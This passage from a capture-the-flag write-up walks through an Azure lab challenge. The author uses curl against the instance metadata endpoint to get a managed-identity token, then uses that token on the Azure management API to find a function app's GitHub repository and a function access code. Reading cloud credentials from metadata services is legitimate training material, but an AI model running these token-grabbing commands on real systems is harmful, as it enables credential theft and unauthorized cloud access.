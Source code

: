 This now allows me to begin additional api calls now that I know the Subscription and Resource Group I have.  In order to hit standard APIs, I will need to generate a token.  To do so, I can actually get a token from the same endpoint in the Azure Instance Metadata Service because this machine is authenticated to the Azure service:

```console
curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s
```

This will return a json object with the access token:

```json
{"access_token":"eyJ0eXAi...","client_id":"b84e06d3-aba1-4bcc-9626-2e0d76cba2ce","expires_in":"85901","expires_on":"1702429034","ext_expires_in":"86399","not_before":"1702342334","resource":"https://management.azure.com/","token_type":"Bearer"}
```

Using that token, and the SubscriptionID, Resource Group and Function App Name, I now hit the source controls Azure API with the token in the header: `https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Web/sites/northpole-ssh-certs-fa/sourcecontrols/web?api-version=2022-03-01`
I'm going to store the results in output.json in the monitor's home directory:

```console
cd /home/monitor
curl "`https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Web/sites/northpole-ssh-certs-fa/sourcecontrols/web?api-version=2022-03-01`" -H "Authorization:Bearer eyJ0eXAi..." -H "Content-Type:application/json" -o output.json -D - -s
cat output.json
```

In the output, I see some interesting things:

```json
{"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Web/sites/northpole-ssh-certs-fa/sourcecontrols/web","name":"northpole-ssh-certs-fa","type":"Microsoft.Web/sites/sourcecontrols","location":"East US","tags":{"project":"northpole-ssh-certs","create-cert-func-url-path":"/api/create-cert?code=candy-cane-twirl"},"properties":{"repoUrl":"https://github.com/SantaWorkshopGeeseIslandsDevOps/northpole-ssh-certs-fa","branch":"main","isManualIntegration":false,"isGitHubAction":true,"deploymentRollbackEnabled":false,"isMercurial":false,"provisioningState":"Succeeded","gitHubActionConfiguration":{"codeConfiguration":null,"containerConfiguration":null,"isLinux":true,"generateWorkflowFile":true,"workflowSettings":{"appType":"functionapp","publishType":"code","os":"linux","variables":{"runtimeVersion":"3.11"},"runtimeStack":"python","workflowApiVersion":"2020-12-01","useCanaryFusionServer":false,"authType":"publishprofile"}}}}
```

Most notably: "repoUrl":"`https://github.com/SantaWorkshopGeeseIslandsDevOps/northpole-ssh-certs-fa`","branch":"main"
Navigating to [https://github.com/SantaWorkshopGeeseIslandsDevOps/northpole-ssh-certs-fa](https://github.com/SantaWorkshopGeeseIslandsDevOps/northpole-ssh-certs-fa) gives me full access to the sourcecode. I first review function_app.py



```python
"""Azure Function App to create SSH certificates."""
import base64
import json
import logging
import os
import uuid
from datetime import datetime, timedelta
from typing import Tuple

import azure.functions as func
from azure.identity import DefaultAzureCredential
from azure.keyvault.secrets import SecretClient
from sshkey_tools.cert import CertificateFields, SSHCertificate
```